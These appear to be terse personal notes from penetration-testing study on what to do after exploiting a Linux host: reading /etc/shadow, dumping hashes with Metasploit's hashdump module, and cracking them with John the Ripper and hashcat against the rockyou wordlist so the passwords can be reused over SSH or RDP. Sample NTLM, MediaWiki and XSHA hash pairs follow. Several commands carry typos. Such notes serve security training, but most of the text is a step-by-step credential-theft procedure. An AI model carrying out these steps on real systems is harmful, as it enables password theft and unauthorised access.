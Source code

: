 
after exploits 

- cat /etc/shadow
- copy hash of root user
- background
- sessions -u 1 
- search hashdump 
- post/linux hashdump
- set session 2 
- run
- we will get unshadowd password file
- we have unshadowed file in  loot 
- take not of path 

next step 
- gzip -d /usr/share/wordlists/rockyou.txt.gz
- john --format =sha512crypt (/path/to/loot/unshadowed.file) --wordlist=/rockyou
- we should have password

hashcat ?
hashcat -a3 -m 1800 /loot/of/unshadowed_file /usr/share/rockyou.txt 

what john ? 
- jphn
- john --list=formats
- john --list=formats | grep NT
- john --format=NT hashes.txt ( we can use default wordlist or custom by adding -w /rockyou.txt )
we can use this information either for RDP connection or ssh connection



or metasploit 

- auxiliary/analyze/crack_linux







Username: administrator
NTLM Hash: e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c

webapp
Username: admin
Mediawiki Hash: $B$113$de2874e33da25313d808d2a8cbf31485

osx
Username: root
XSHA Hash: 7E4F6138BE21EF6A61365A4D3270DAD24A6544EE188ED422
